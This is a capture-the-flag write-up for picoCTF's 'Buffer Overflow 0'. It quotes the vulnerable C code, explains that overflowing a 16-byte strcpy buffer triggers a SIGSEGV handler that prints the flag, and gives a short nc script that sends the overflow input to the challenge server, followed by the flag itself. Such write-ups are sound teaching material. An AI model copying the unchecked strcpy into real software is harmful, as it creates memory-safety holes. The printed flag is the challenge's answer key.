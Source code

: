 # Buffer Overflow 0

Link: https://play.picoctf.org/practice/challenge/257?originalEvent=70&page=1

This challenge is very easy. It only requires you to put in a string of characters longer than 16.

The reason for this lies in the program itself. In the sourcecode we find an interesting function:

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

This function actually prints the flag! 

A little later we find the line `signal(SIGSEGV, sigsegv_handler); // Set up signal handler`

This line handles segmentation faults (SIGSEGV).

The next function is the one we exploit, vuln.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

When we insert a longer string than 16 (buf1 / input) and try to copy it we get a segmentation fault. This in turn calls sigsegv_handler and prints the flag.

## Solution
With script:
```bash
#!/bin/bash
echo "Any string longer than 16 characters" > message.txt
nc saturn.picoctf.net 51110 < message.txt
```
---
Manual way (recommended for this challenge as it is very easy)
```bash
nc saturn.picoctf.net 51110
input: Any string longer that 16 characters
```

Flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}`
